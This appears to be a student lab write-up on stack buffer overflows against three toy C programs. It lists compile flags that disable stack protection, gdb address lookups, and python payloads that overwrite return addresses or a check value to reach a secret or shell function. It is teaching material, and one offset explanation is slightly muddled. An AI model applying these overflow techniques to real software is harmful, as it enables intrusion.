 # 20110370, Phùng Huy Hoàng
# Lab 1: Buffer overflow attack
## Topic
*Conduct buffer overflow attack on bof1.c, bof2.c, bof3.c programs.*

### I.I this is bof1.c

![](./assets/imgLab1/funcSecretFunc.png)

### I.II Implementation steps

- Step 1: 
Compiled file bof1.c (- gcc -g bof1.c -o bof1.ou -fno-stack-protector -mpreferred-stack-boundary=2)
- Step 2: run gdb and execute the command info disassemble to know the location of the myfunc function ( 0x0804846b -> \x6b\x84\x04\x08)

- ![](./assets/imgLab1/func2.png)

- Step 3: echo $(python -c"print('A'*204 + '\x6b\x84\x
04\x08')") | ./bof1.out
- As we have analyzed the stack frame of the program, to insert the address of the secretFunc function, we must insert 200 bytes of junk file and add 2 bytes of return and 2 bytes of ebp to be able to insert the address of the secretFunc function into returnAddress. 

- ![](./assets/imgLab1/doneBof1.png)

### II.I this is bof2.c

![](./assets/imgLab1/bof2.png)

### II.II Implementation steps

- Step 1: 
Compiled file bof2.c (gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2)
- Step 2: $(python -c"print('A'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
- Ta cần 40 ký tự rác để tạo lỗi tràn bộ đệm sau đó thay thế check bằng 0xdeadbeef để hiển thị "Yeah! You win!"

- ![](./assets/imgLab1/done2.png)

- Nếu check bị thay thế bởi giá trị khác thì "You are on the right way!" sẽ xuất hiện như ảnh dưới

- ![](./assets/imgLab1/done3.png)

### III.I this is bof3.c

- ![](./assets/imgLab1/bof3.png)

### III.II Implementation steps

- Step 1: 
Compiled file bof3.c (gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2)
- Step 2: run gdb and execute the command info disassemble to know the location of the shell function ( 0x0804845b -> \x5b\x84\x04\x08)

- ![](./assets/imgLab1/shell.png)

- Step 3: echo $(python -c"print('A'*128 + '\x5b\x84\x04\x08')") | ./bof3.out

- ![](./assets/imgLab1/done4.png)

